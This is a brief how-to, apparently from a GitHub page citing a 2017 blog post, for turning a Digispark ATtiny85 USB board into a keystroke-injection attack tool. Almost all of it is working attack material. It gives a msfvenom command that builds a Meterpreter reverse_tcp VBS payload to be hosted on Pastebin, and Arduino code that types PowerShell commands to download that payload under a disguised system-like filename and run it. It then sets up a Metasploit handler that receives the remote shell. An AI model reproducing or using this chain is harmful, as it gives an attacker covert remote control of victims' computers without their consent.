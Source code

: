 https://khromozome.wordpress.com/2017/05/09/meterpreter-shell-rubber-ducky-attiny85/

# Create a payload
Use msfvenom to create a reverse_tcp payload. We should use VBS payload instead of EXE .
```
msfvenom -p windows/meterpreter/reverse_tcp   -f vbs   –smallest  LHOST=“attacker ip”  LPORT=444 -o /root/Desktop/payload.txt
```
# upload code to pastebin

Now open the file payload.txt from the desktop and copy the whole code. goto pastebin.com > click on “NEW PASTE” and paste the code, then click create paste. A new paste will be created. Note down the url somewhere, we need that in future.

# Flashing Ducky

```
#include "DigiKeyboard.h"

void setup() {
}

void loop() {
 int d=1000;
 // this is generally not necessary but with some older systems it seems to
 // prevent missing the first character after a delay:
 DigiKeyboard.sendKeyStroke(0);
 DigiKeyboard.delay(d);
 DigiKeyboard.sendKeyStroke(0,MOD_GUI_LEFT);
 DigiKeyboard.print("powershell");
 DigiKeyboard.delay(50);
 DigiKeyboard.sendKeyStroke(KEY_ENTER);
 DigiKeyboard.delay(d);
 DigiKeyboard.print("$client = new-object System.Net.WebClient");
 DigiKeyboard.sendKeyStroke(KEY_ENTER);
 DigiKeyboard.delay(d);
 DigiKeyboard.print("$client.DownloadFile('change_to_Your_url','Sys32Data.vbs')");
 DigiKeyboard.sendKeyStroke(KEY_ENTER);
 DigiKeyboard.print("start Sys32Data.vbs");
 DigiKeyboard.sendKeyStroke(KEY_ENTER);
 DigiKeyboard.delay(1000);
 DigiKeyboard.sendKeyStroke(KEY_F4|MOD_ALT_LEFT);
 DigiKeyboard.delay(50000);
}
```

# setup handler

```
msfconsole
msf> use multi/handler
msf exploit(handler) > set PAYLOAD windows/meterpreter/reverse_tcp
msf exploit(handler) > set LPORT 444
msf exploit(handler) > set LHOST “attacker ip”
msf exploit(handler) > exploit
msf exploit(handler) > exploit
```
